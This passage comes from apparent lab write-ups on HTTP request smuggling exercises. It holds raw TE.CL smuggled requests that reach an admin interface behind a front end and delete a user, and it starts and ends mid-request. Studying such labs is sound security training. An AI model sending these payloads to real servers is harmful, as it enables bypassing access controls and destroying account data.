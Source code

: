     0

    GET /admin/delete?username=carlos HTTP/1.1
    Host: localhost
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=

### LAB: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
Same as above lab. Resend this request 2 times to get into the admin interface:

    POST / HTTP/1.1
    Host: 0a1700270458b0bf81338a4e002c0049.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked

    70
    GET /admin HTTP/1.1
    Host: localhost
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=
    0

Now we successfully accessed the admin interface and notice the endpoint to delete user Carlos: `/admin/delete?username=carlos`. Resend this request 2 times to delete that user:

    POST / HTTP/1.1
    Host: 0a1700270458b0bf81338a4e002c0049.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked

    87
    GET /admin/delete?username=carlos HTTP/1.1
    Host: localhost
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=
    0

### LAB: Exploiting HTTP request smuggling to reveal front-end request rewriting
Notice the search function will reflect the value of `search` parameter into the response. To discover the front-end request rewriting, send this request 2 times:

    POST / HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    Cookie: session=AG7CjZoOsfvnwBV0hv1wXLM7wTyuaAHv
    Content-Length: 166
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked
